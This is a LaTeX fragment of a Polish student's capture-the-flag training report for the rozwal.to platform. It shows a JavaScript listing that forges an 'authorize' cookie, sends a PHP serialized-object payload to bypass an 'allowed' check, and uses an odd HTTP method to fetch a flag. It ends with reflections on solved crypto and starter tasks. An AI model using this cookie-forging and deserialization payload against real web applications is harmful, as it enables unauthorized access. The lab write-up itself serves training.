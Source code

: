 \documentclass[12pt,a4paper,titlepage]{article}
\begin{document}
\begin{listing}[H]
\caption{Funkcja zwracająca flagę z odpowiedzi do zapytania.}
\begin{verbatim}
await (async function () {
    document.cookie = 'authorize=true';
    const url = 'http://training.securitum.com/rozwal/webapp3
    /?data=O:1:\"T\":1:{s:10:\"�T�allowed\";i:1;}';
    const response = await fetch(url, {
        method: 'GOD',
        headers: {
            'X-Requested-With': 'XMLHttpRequest'
        },
    });
    return await response.text();
})();
\end{verbatim}
\end{listing}

\section{Wnioski}
Udało mi się wykonać pięć zadań. Trzy z działu Crypto oraz dwie z działu ROZWAL.TO Starter. Łącznie zebrana przeze mnie liczba punktów za rozwiązane polecenia wynosiła 516.

\begin{figure}[H]
  \includegraphics[width=\linewidth]{stary-rozwal-to.png}
  \caption{Uzyskane punkty.}
  \label{fig:punkty}
\end{figure}

Był to bardzo ciekawy trening pokazujący jak łatwo można wykorzystać błędy i luki systemów. W trakcie wykonywania tego ćwiczenia przydały mi się wcześniej nabyte umiejętności związane z językiem Java oraz JavaScript, a także znajomość RESTa oraz narzędzi przeglądarki. Musiałam także poczytać o stenografii oraz szyfrowaniu algorytmem XOR.

\listoffigures
\listoflistings
\end{document}
